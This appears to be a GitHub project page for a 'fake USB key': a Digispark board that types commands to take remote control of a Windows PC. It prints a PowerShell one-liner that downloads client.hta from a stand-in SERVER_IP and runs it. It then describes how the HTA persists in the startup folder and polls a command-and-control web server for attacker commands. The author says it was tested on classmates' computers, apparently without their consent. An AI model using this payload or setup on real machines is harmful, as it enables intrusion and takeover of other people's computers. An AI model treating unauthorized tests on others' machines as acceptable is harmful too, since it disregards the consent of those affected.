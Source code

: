 ## Demo

I recently posted [a video](https://www.youtube.com/watch?v=vo7N044aZvU) on my [YouTube Channel](https://www.youtube.com/channel/UCGj6pfxZ0XYJU29XNwXPPxg/featured) showing how easy it is to take control of a computer with a fake USB key. Here it is:

#demo

![youtube](https://www.youtube.com/embed/vo7N044aZvU)

Essentially, when you plug the USB key in a PC, it types commands to give control of your computer to the attacker. Once a computer is infected, you will be able to control it by going to a website from another computer or even from a cell phone!

## How it Works

The _fake USB key_ is in fact made from an arduino-compatible board, a `Digispark`. You can buy some from [here](https://www.ebay.com/itm/Digispark-Kickstarter-ATTINY85-General-Micro-USB-Development-Board-Sale/173925228046?hash=item287ec05e0e:g:hQIAAOSwTuJYpT~p).

> Arduino is an open-source hardware and software company, project and user community that designs and manufactures single-board microcontrollers and microcontroller kits for building digital devices.
>
> [Wikipedia](https://en.wikipedia.org/wiki/Arduino)

It also has a custom case, made using _3D printing_. You can [download the STL file here](./Case%204%20v9.stl).

Arduino boards are perfect for small electronics projects. However, the `Digispark` is a special _Arduino_ board: it can be programmed to automatically send keystrokes to a computer, and this is the key to easily infect a computer in a matter of seconds. It types commands really fast to download a program from a remote server, which itself copies itself on the computer so that it starts up as soon as the infected computer boots.

After that, the attacker goes to the server's `IP` address on a web browser to connect to it. From the web interface, he can send commands in `JavaScript`, `JScript` or even use _CMD_ or _PowerShell_ to do literally everything he wants to the infected computer.

## Under the Hood

What I find most interesting about this project is how it all works _under the hood_. First, let's talk about the commands typed by the "USB" key (the [Digispark](https://www.ebay.com/itm/Digispark-Kickstarter-ATTINY85-General-Micro-USB-Development-Board-Sale/173925228046?hash=item287ec05e0e:g:hQIAAOSwTuJYpT~p)) to easily infect a computer. It opens up _Windows PowerShell_ using the _Run_ prompt, and then types the following command:

```shell
$p = "$env:temp/client.hta";(New-Object System.Net.WebClient).DownloadFile("http://SERVER_IP/client.hta", $p);cd $env:temp;start -PSPath $p;
```

What this command does is simple: it navigates to `http://SERVER_IP/client.hta` and downloads the client.hta file onto the user's hard drive, in the `TEMP` directory. Once this is done, it executes it, which copies it on the user's startup folder (so that it runs every time the machine boots up) and constantly pings the server using a `POST` request to see if a command is available.

> In computing, POST is a request method supported by HTTP used by the World Wide Web. By design, the POST request method requests that a web server accepts the data enclosed in the body of the request message, most likely for storing it. It is often used when uploading a file or when submitting a completed web form.
>
> [Wikipedia](<https://en.wikipedia.org/wiki/POST_(HTTP)>)

Here is how the server works:

- When the server is sent a `POST` request, it looks up in its database to see if a command is ready to be sent to the infected computer. If so, it sends the `JavaScript` command as a response to the `POST` request.
- When the server is sent a `GET` request with the corresponding _password_, it just responds with the webpage for the attacker, in order to be able to send commands wirelessly. If the `GET` request contains an `IP` address and a command, then it is stored in the database, waiting for an infected computer to ask for its command. As said previously, when this happens, the command is sent to the victim computer for it to execute.
- Finally, when the server is asked for the `log`, it sends all the commands from the database with their responses from the infected computer, so that they can be displayed on the attacker's web interface.

## Final Words

This is a project that took me a while to polish down to its final shape. Now that it is completed, I am really happy with the result! Even if I do not recommend you do so, I have tested it successfully on my classmates' computers, and their reactions were priceless.
